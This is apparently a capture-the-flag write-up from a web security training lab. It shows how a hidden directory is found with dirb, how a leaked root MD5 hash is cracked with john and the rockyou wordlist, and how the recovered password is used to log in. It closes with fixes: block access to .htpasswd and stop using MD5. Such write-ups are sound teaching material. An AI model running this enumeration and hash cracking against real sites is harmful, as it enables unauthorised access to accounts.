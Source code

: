 # Hidden file

### Breach Exploit
Scan the website with dirb and we get this:

```
 ==> DIRECTORY: http://192.168.64.3/admin/
 ==> DIRECTORY: http://192.168.64.3/whatever/
```

In /whatever we find a file containing this:

```
root:437394baff5aa33daa618be47b75cb49
```

Brute force the hash with john:

```
# john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt flag.txt
qwerty123@       (?)
```

Now go to /whatever and fill the form with the creds we get.

### Fix Breach

Do not let access to .htpasswd file by changing server configuration
Do not use md5
```https://wiki.owasp.org/index.php/SCG_WS_Apache```

### Documentation
```https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#public-serving-of-uploaded-content```